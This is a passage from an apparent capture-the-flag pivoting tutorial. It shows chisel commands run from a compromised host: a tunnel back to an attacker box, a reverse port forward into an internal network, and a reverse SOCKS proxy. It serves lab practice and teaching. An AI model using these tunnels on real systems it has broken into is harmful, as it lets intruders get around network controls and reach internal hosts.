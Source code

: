 A silly example that illustrats listening on the client. I am on a
target that can't connect to the internet, but can route to my attacking
machine. I'll use `chisel` to create a tunnel to the site I want to
download from as follows:

-   `./chisel server -p 8000` on my attacker box.
-   `./chisel client 1.1.1.1:8000 9001:www.exploit-db.com:443` on the
    compromised box. This will connect back to my box, and start a
    listener on the target box. Any traffic sent to that listening port
    will be tunneled to my box, and then routed to www.exploit-db.com.
-   I can then use `wget` or `curl` to connect to `127.0.0.1:9001` and
    get things from the site. Depending on how the site is configured, I
    may have to turn off certificate checking, and/or modify the headers
    (such as Host) to get it to connect.

![](/img/chisel-1.png)

#### Basic Server Listener

A more interesting example is one like I faced in Reddish. I exploited a
webapp, and needed to pivot into the network behind it. Since I was in a
container, only the webapp port (in this case 1880) was forwarded
through to the container, so I couldn't just listen on another port.

In this case, I'll use a reverse tunnel to open a listening port on my
Kali host that can now talk to hosts behind my initial compromised host:

-   `./chisel server -p 8000 --reverse` on my local box.
-   `./chisel client 1.1.1.1:8000 R:80:3.3.3.4:80` on the target. This
    will open a listener on port 80 on my Kali box, and any connections
    to that port will be forwarded to the target, which will pass them
    to port 80 on 3.3.3.4.

![](/img/chisel-2.png)

#### Socks Proxy

*Update 10 Aug 2020*: As of [version
1.5.0](https://github.com/jpillora/chisel/releases/tag/v1.5.0), Chisel
now has a Socks option built in.

On Kali run `./clisel server -p 8000 --reverse`.

On box you want to proxy through run
`./chisel client 1.1.1.1:8000 R:socks`.

This will start a listener on Kali on port 1080 which is a SOCKS5 proxy
through the Chisel client.

*Original Text:*

Ippsec showed this at the end of his video, and it's worth seeing.
`chisel` only let's the server act as a socks proxy. But, in the case of
Reddish, I don't have a way to connect directly to that server. I'll use
`chisel` to set up a tunnel so I can connect to another `chisel` in the
opposite direction:
